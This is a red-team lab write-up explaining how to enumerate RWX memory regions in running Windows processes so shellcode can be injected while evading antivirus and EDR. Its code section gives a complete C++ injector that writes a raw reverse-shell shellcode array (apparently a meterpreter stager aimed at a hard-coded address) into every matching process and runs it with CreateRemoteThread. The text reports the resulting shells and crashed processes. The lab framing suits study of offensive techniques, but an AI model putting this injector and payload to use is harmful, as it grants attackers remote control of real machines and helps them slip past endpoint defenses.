

# Enumerating RWX Protected Memory Regions for Code Injection

Injecting and executing shellcode from a local or target process requires memory where the shellcode could be written to, read from and executed. 

Some shellcode injection techniques allocate `PAGE_EXECUTE_READWRITE` memory block, fill it with shellcode and create a thread pointing to that shellcode. It's not a very common thing for bening applications to do and this is something AV/EDR solutions may punish you for if they catch you doing it.

Some techniques allocate `PAGE_READWRITE` first, write shellcode to the allocated memory, protect it with `PAGE_EXECUTE_READ` and then execute it, which means that at no point in time there's an RWX memory block in the target process. It is a bit stealthier and may help one sneak past AVs/EDRs.

What both techniques have in common is that they still need to **allocate** and **protect** memory \(RW -&gt; RX or RWX\).  Having said that, it is possible to brute-force/enumerate currently running target processes on the compromised system - search through their allocated memory blocks and check if any those are protected with RWX, so we can attempt to write/read/execute them, which may help evade some optics.

## Overview

In this lab I will write a simple program that will:

* Loop through all the processes on the system
* Query each process's memory information
* Loop through all allocated memory blocks in each process
* Check for any memory block that is protected with RWX && is private && is committed
* If the above condition is met
  * Print out address of the memory block
  * Write shellcode to that memory block
* Create a remote thread that points to the shellcode written in the above step

Running the [Code](finding-all-rwx-protected-memory-regions.md#code) with breakpoint set on line 31 will be hit if the conditions on line 27 are met. The conditions we are checking for are: 

```cpp
mbi.AllocationProtect == PAGE_EXECUTE_READWRITE 
&& mbi.State == MEM_COMMIT 
&& mbi.Type == MEM_PRIVATE
```

Once the breakpoint is hit, we can see that the memory region 27c727a0000 is RX protected, is private and commited and now contains our shellcode \(starting with bytes fc 48 83 e4\) :


If you noticed and were wondering...

> ### Why were we able to WRITE to an RX memory region?
>
> When you call `Write­Process­Memory` and tell it to write to memory that is read-only, the `Write­Process­Memory` succeeds. How can that be?
>
> Because `Write­Process­Memory` tries really hard to please you.
>
> As I noted some time ago, [the primary audience for functions like `Create­Remote­Thread` and `Write­Process­Memory` is debuggers](https://blogs.msdn.microsoft.com/oldnewthing/20120808-00/?p=6913). And when debuggers try to patch memory, it’s often for things like patching in a breakpoint instruction or doing some [edit-and-continue](https://docs.microsoft.com/en-us/visualstudio/debugger/edit-and-continue?view=vs-2015) magic. So the `Write­Process­Memory` tries really hard to get those bytes written. If the page is read-only, `Write­Process­Memory` temporarily changes the permission to read-write, updates the memory, and then restores the original permission.
>
> “No need to thank me, just trying to help.”
>
> There is a race condition if the target process happens to be manipulating the page protection at the same time that `Write­Process­Memory` is. But that’s okay, because the intended audience is debuggers, and debuggers will freeze the target process before trying to edit its memory.
>
> There is no security hole here, because the way the `Write­Process­Memory` function changes the page protection is basically `Virtual­Protect­Ex`, so it will succeed only if you already could have modified the protections yourself anyway. If you didn’t have permission to change the protections, then `Write­Process­Memory`‘s attempt to change the protections would fail too.
>
> Source: [https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)

## Demo

Let's build the program and run it - we can see we got some meterpreter shells.




The below provided code is a dirty POC and may crash certain processes and the Visual Studio banner appearing in the above GIF proves it - the shellcode got injected into Visual Studio \(devenv.exe\) that crashed and restarted itself.


## Code



```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	MEMORY_BASIC_INFORMATION mbi = {};
	LPVOID offset = 0;
	HANDLE process = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	DWORD bytesWritten = 0;
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	Process32First(snapshot, &processEntry);
	while (Process32Next(snapshot, &processEntry))
	{
		process = OpenProcess(MAXIMUM_ALLOWED, false, processEntry.th32ProcessID);
		if (process)
		{
			std::wcout << processEntry.szExeFile << "\n";
			while (VirtualQueryEx(process, offset, &mbi, sizeof(mbi)))
			{
				offset = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
				if (mbi.AllocationProtect == PAGE_EXECUTE_READWRITE && mbi.State == MEM_COMMIT && mbi.Type == MEM_PRIVATE)
				{
					std::cout << "\tRWX: 0x" << std::hex << mbi.BaseAddress << "\n";
					WriteProcessMemory(process, mbi.BaseAddress, shellcode, sizeof(shellcode), NULL);
					CreateRemoteThread(process, NULL, NULL, (LPTHREAD_START_ROUTINE)mbi.BaseAddress, NULL, NULL, NULL);
				}
			}
			offset = 0;
		}
		CloseHandle(process);
	}

	return 0;
}
```



## References



